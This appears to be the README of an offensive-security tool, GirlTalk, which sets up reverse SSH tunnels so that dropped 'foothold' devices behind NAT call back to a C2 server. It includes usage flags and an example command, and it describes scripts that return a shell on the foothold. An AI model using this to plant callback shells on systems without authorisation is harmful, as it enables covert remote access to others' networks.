 # README #
GirlTalk is a script for rapidly deploying reverse SSH tunnels to remotely positioned devices.

## Updates
* Added multi-user support
* Scripting options to allow fine-tuning & easier operation
* Girltalk now supports AWS C2 deployments with the -a option

## NOTE!
This tool is freely licensed but I do not take any responsibility for whatever you choose to do with this.
Therefore, only use this tool in association with systems and networks you have explicit permission to operate on!

## What is this repository for?

The intent behind GirlTalk is to utilize as much native functionality as possible for creating reverse SSH tunnels.
By using native functionality, we can simplify the deployment of droppable devices. A side effect of this is that Girltalk is easily auditable.
Girltalk will give operators a route to a deivce that is not easily accessible, such as when a device is behind Network Address Translation (NAT).

## USAGE
Girltalk is currently compatible with the following options:
Key/Cert Mode options:
```
  -a	  Boolean option for keyed C2 infrastructure (This option has been tested with AWS as the C2)
  -k    Full path of SSH key
```

Password Mode options:
```
  -c    C2 host
  -u	  C2 username
  -l    Local username to use

usage:	 girltalk.sh -c <C2 hostname/IP> -l <local_username> -u <C2_username>
example: girltalk.sh -c host.aws.com -u ubuntu -l hatchetface -a -k ~/.ssh/amazon-keypair.pem
```

## How does it work?
Girltalk takes advantage of the standard functionality of openssh, but scripts out the process of orchestrating the connection between the "foothold" host to be deployed behind
NAT and the control infrastructure operators have configued.
![example diagram](/images/diagram.png)

## How do I get set up?
To get started, run girltalk.sh on the host you wish to have call back to your C2. Select all appropriate flags and include relevant info for contacting the C2 server.
If you have an AWS server acting as your C2, you should make sure that the -a option is selected.

Girltalk will place an access script onto the C2 host called 'hmu_user.sh'. Running this newly created script will transfer local ssh keys back to the foothold host and
immediately return a shell for the foothold device.

## Connecting to the deployable host
When girltalk.sh is done, a new script will be made available in the root directory of the C2 host called 'hmu.sh'. Run this script from the C2 host, input the password for
the account specified during girltalk runtime and you should have a shell on the remotely deployed foothold host without needing any unknown routing information from the foothold
host!
